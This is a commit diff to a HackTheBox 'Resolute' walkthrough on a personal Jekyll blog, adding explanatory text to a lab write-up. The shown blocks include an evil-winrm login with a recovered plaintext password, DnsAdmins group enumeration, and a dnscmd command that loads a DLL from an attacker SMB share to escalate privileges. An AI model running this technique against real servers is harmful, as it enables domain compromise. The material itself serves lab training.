

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2020-06-01-Hackthebox-Resolute-Walkthrough.md, in a window 1280 px wide and 900 px high, scrolled down 14015 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
add resolute-walkthrough

````diff
--- a/_posts/2020-06-01-Hackthebox-Resolute-Walkthrough.md
+++ b/_posts/2020-06-01-Hackthebox-Resolute-Walkthrough.md
@@ -531,6 +531,7 @@ It looks like user `ryan` is trying to execute a command and plain text password
 ryan:Serv3r4Admin4cc123!
 ```
 
+This time again, we can use `evil-winrm` to login to the server.
 ```shell
 root@kali:~/evil-winrm# ./evil-winrm.rb -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
 
@@ -542,7 +543,7 @@ Info: Establishing connection to remote endpoint
 megabank\ryan
 ```
 
-
+Then, check the permission for user `ryan`. We can find that this user is in the group `DnsAdmins`.
 ```shell
 *Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups
 
@@ -563,7 +564,6 @@ MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-
 NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
 Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
 ```
-
 
 According to [this article](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83), giving DnsAdmin permission for general user can be abused.<br>
 First, we need to create a payload for that.
@@ -591,7 +591,8 @@ Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
 
 ```
 
-memo
+[dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) has an option to load an external dll file.<br>
+We can take advantage of that.
 ```shell
 *Evil-WinRM* PS C:\Users\ryan\Documents> cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.22\share\exploit.dll
 
````
